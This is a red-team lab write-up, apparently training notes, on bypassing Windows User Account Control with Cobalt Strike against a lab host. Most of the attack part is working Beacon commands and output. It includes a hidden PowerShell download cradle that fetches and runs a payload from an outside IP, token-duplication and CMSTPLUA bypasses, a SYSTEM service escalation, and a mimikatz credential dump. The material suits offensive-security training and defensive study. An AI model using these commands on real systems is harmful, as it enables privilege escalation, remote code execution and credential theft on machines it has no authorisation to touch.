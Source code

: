 Veterans of Windows Vista will remember the User Account Control window that popped up every time anything wanted to perform a privileged operation. This was to prevent malicious applications from carrying out actions without the explicit consent of an admin.

By default, applications will run in a Medium Integrity context even if the user is a local administrator. **nlamb** is a member of Domain Admins and subsequently the local administrators group on wkstn-2. However, if you launch the Command Prompt "normally" and attempt to add a new local user, it will fail.

![alt text](file:///android_asset/20220831121200.png)

To run the Command Prompt in high integrity, right-click it, select "Run as Administrator" and consent to the UAC dialogue.

![alt text](file:///android_asset/20220831121209.png)

Now Command Prompt is running as an administrator (you will often see "Administrator" in the window title) and you can add the local user.

![alt text](file:///android_asset/20220831121216.png)

UAC was first introduced in Windows Vista and attracted complaints from users due to the frequency and annoyance of the popups, which led Microsoft to introduce some relaxations. These allow some of their own trusted, signed applications to "auto-elevate" without consent under certain conditions. In many ways, this decision paved the way for many of the loopholes exploited in "UAC bypasses".

The default configuration for UAC is **Prompt for consent for non-Windows binaries**, but can also have different settings such as **Prompt for credentials**, **Prompt for consent** and **Elevate without prompting**.

Seatbelt can be used to query the configuration applied to a machine.
```shell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe uac

====== UAC ======

ConsentPromptBehaviorAdmin     : 5 - PromptForNonWindowsBinaries
EnableLUA (Is UAC enabled?)    : 1
```

A UAC bypass is a technique by which an application can go from **Medium** to **High Integrity** without prompting for consent. This is not technically an EoP because Microsoft do not consider UAC to be a security boundary; and since the user has to be a local administrator, you're not gaining any privilege that the user is not already allowed to have.

Jump onto the console of **WKSTN-2** and spawn a Beacon as **nlamb**. SharpUp will tell us that we're already a local admin, so UAC can be bypassed.
```shell
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.
```

Cobalt Strike provides two means of executing code to bypass UAC. The first is via the `elevate` command, which bootstraps a listener via the chosen technique. The second is via the `runasadmin` command, which allows you to execute any arbitrary command.
```shell
beacon> elevate uac-token-duplication tcp-4444-local
[+] Success! Used token from PID 480
[+] established link to child beacon: 10.10.17.132
```
![alt text](file:///android_asset/20220831121321.png)
```shell
beacon> runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```
```shell
05/10 18:03:39 visit (port 80) from: 10.10.17.132
    Request: GET /b
    page Scripted Web Delivery (powershell)
    null
```
```shell
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.132
```

Not all UAC bypasses are created equal - some have "quirks" that you need to be aware of. Seatbelt's `TokenPrivileges` command can list the current token's privileges . A high integrity process may look something like this:

```shell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

                     SeIncreaseQuotaPrivilege:  DISABLED
                          SeSecurityPrivilege:  DISABLED
                     SeTakeOwnershipPrivilege:  DISABLED
                        SeLoadDriverPrivilege:  DISABLED
                     SeSystemProfilePrivilege:  DISABLED
                        SeSystemtimePrivilege:  DISABLED
              SeProfileSingleProcessPrivilege:  DISABLED
              SeIncreaseBasePriorityPrivilege:  DISABLED
                    SeCreatePagefilePrivilege:  DISABLED
                            SeBackupPrivilege:  DISABLED
                           SeRestorePrivilege:  DISABLED
                          SeShutdownPrivilege:  DISABLED
                             SeDebugPrivilege:  SE_PRIVILEGE_ENABLED
                 SeSystemEnvironmentPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                    SeRemoteShutdownPrivilege:  DISABLED
                            SeUndockPrivilege:  DISABLED
                      SeManageVolumePrivilege:  DISABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
                          SeTimeZonePrivilege:  DISABLED
                SeCreateSymbolicLinkPrivilege:  DISABLED
    SeDelegateSessionUserImpersonatePrivilege:  DISABLED
```

A high integrity session gained using Token Duplication looks like this:
```shell
====== TokenPrivileges ======

Current Token's Privileges

                          SeShutdownPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                            SeUndockPrivilege:  DISABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
                          SeTimeZonePrivilege:  DISABLED
```

and this will cause actions that require privileged access to still fail.
```shell
beacon> logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 296058 bytes
[+] received output:
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

So even though we're in a high integrity session, we really can't do much. `elevate svc-exe` can be used to execute another Beacon as SYSTEM by utilising the Service Control Manager.
```shell
beacon> elevate svc-exe tcp-4444-local
Started service 96d0481 on .
[+] established link to child beacon: 10.10.17.132
```
![alt text](file:///android_asset/20220831121454.png)

This Beacon will have the necessary token privileges to run post-ex command such as `logonpasswords`. The moral of this story is to research into the specific bypass techniques before you use them.
